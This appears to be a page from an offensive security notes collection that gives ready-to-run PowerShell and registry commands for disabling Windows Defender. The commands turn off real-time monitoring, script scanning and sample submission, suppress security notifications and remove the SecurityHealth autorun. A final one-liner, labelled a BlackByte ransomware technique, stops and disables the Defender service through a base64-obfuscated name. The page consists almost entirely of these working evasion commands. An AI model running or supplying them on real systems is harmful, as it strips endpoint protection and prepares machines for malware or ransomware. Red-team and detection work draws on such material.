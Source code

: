 #### Disabling Defender

{% code overflow="wrap" %}
```powershell
taskkill  /F /IM MSASCuiL.exe

Set-MpPreference -DisableIntrusionPreventionSystem $true `
-DisableRealtimeMonitoring $true -DisableScriptScanning $true `
-EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode `
-Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend

REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "HideSCAHealth" /t REG_DWORD /d 0x1 /f
REG ADD "HKCU\Software\Policies\Microsoft\Windows\Explorer" /v "DisableNotificationCenter" /t REG_DWORD /d 0x1 /f
REG DELETE "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityHealth" /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "AllowFastServiceStartup" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "ServiceKeepAlive" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "LocalSettingOverrideSpynetReporting" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 0x2 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration" /v "NotificationSuppress" /t REG_DWORD /d 0x1 /f

```
{% endcode %}

####

####

####

#### Disable Defender on Reboot (A BlackByte TTP)

{% code overflow="wrap" %}
```powershell
powershell -command "$x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VwBpA'+'G4ARA B'+'lAGYA'+'ZQB'+'uAG'+'QA'));Stop-Service -Name $x;Set-Service -StartupType Disabled $x"
```
{% endcode %}
